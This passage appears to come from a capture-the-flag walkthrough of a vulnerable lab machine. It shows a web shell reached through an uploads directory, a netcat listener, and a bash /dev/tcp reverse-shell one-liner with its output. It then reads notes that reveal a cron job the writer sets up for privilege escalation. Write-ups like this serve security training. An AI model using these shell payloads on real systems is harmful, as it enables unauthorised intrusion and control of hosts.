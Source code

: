 ```PHP
</html>
```

Then accessing the file on the `/uploads` directory we have a web shell, hehe


![](https://i.imgur.com/2lJzuEt.png)


You can then attempt to gain a reverse shell with the below payload;

```bash
# Start up listener
nc -lvnp 4444

# Inject payload into the webshell for reverse shell
/bin/bash -i >& /dev/tcp/192.168.0.158/4444 0>&1

####################################################################
####################################################################

# Popped reverse shell
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.0.158] from (UNKNOWN) [192.168.0.134] 34811
bash: no job control in this shell
bash-4.1$ whoami
whoami
apache
bash-4.1$
```



Then i found a `notes.txt` file under `/var/www` which says this


```bash
bash-4.1$ cat /var/www/notes.txt 
hey eezeepz your homedir is a mess, go clean it up, just dont delete
the important stuff.

-jerry
```


Checking the user `eezeepz` i also found another `notes.txt` file


```bash
bash-4.1$ cat notes.txt 
Yo EZ,

I made it possible for you to do some automated checks, 
but I did only allow you access to /usr/bin/* system binaries. I did
however copy a few extra often needed commands to my 
homedir: chmod, df, cat, echo, ps, grep, egrep so you can use those
from /home/admin/

Don't forget to specify the full path for each binary!

Just put a file called "runthis" in /tmp/, each line one command. The 
output goes to the file "cronresult" in /tmp/. It should 
run every minute with my account privileges.

- Jerry
bash-4.1$ pwd
/home/eezeepz
bash-4.1$
```
